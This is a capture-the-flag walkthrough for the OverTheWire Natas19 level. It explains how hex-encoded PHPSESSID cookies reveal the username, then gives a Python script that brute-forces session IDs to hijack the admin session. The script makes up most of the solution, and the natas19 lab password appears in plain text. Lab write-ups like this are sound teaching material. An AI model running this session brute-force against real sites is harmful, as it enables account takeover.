 # 🔐 Natas19 Walkthrough

Loggin on to `natas19` we are greeted with:

***This page uses mostly the same cde as the previous level, but session IDs are no logner sequential...***

That means the `SESSID` pattern is most likely different, not just `1-640` in plain text. Let's try to put a test username and password into the form and check what `SESSID` we get in the coockie cache:

```
INPUT:
    Username: test
    Passoword: test

OUTPUT:
    You are logged in as a regular user. Login as an admin to retrieve 
    credentials for natas20.
```

Let's check the ***cookie cache.***

```
RMB -> inspect -> data -> cookies

PHPSESSID = 33352d74657374
```

This is clearly a hex number, hence the `d`. Let's decode it using [cyber-chef](https://gchq.github.io/CyberChef/)

![alt text](image.png)

as you can see, the `username` is in the `PHPSESSID`, naturally we should try inputing `admin` in the username cause that will most likely be the admin's session.

```
INPUT:
    Username: admin
    Passoword: admin

OUTPUT:
    You are logged in as a regular user. Login as an admin to retrieve 
    credentials for natas20.
```

Let's check the ***cookie cache*** again.

```
RMB -> inspect -> data -> cookies

PHPSESSID = 3134392d61646d696e
```
decoding...

![alt text](image-1.png)

```
2d61646d696e = -admin
```

In order to find the admin's correct session now we need to bruteforce the rest of the hex. That's again where python comes in to play.

## 🤖 Python solution

```python
import requests,re,time, sys

# =======================
# === STYLING HELPERS ===
# =======================
GREEN = "\033[92m"
RED = "\033[91m"
YELLOW = "\033[93m"
CYAN = "\033[96m"
RESET = "\033[0m"

def log_info(message):
    print(f"{CYAN}[*] {message}{RESET}")

def log_success(message):
    print(f"{GREEN}[+] {message}{RESET}")


def log_progress_inline(message, color=CYAN):
    sys.stdout.write(f"\r{YELLOW}{message}{RESET}")
    sys.stdout.flush()

def log_found_inline(message):
    sys.stdout.write(f"\r{YELLOW}{message}{RESET}\n")
    sys.stdout.flush()

# ======================= 
# === CONFIG === 
url = "http://natas19.natas.labs.overthewire.org"
username = "natas19"
natas19_password = "tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr"
phpsesidMax = 640
phpsesidMin = 1
# =============

log_info("Starting brute-force on natas19...")

while phpsesidMin <= phpsesidMax:

    stringHex = "".join("{:02x}".format(ord(c)) for c in str(phpsesidMin))
    adminHex = "2d61646d696e" # -admin

    sesID = "PHPSESSID=" + stringHex + adminHex
    log_progress_inline(sesID)

    headers = {'Cookie': sesID}
    response = requests.get(url,headers=headers, auth=(username,natas19_password),verify=False)

    if "You are an admin." in response.text:
        match = re.search(r"Password:\s*([^\s<]+)", response.text)        
        if match:
            password = match.group(1)
            log_found_inline(f"Admin session found! PHPSESSID={sesID}")
            log_success(f"Natas20 password: {password}")
            break

    phpsesidMin = phpsesidMin + 1
```

The whole script with console formatting is avaliable in the natas19 directory, this code is only a **walkthrough** version with comments so you know whats going on. The output should provide you with the password for natas20  `(:`.

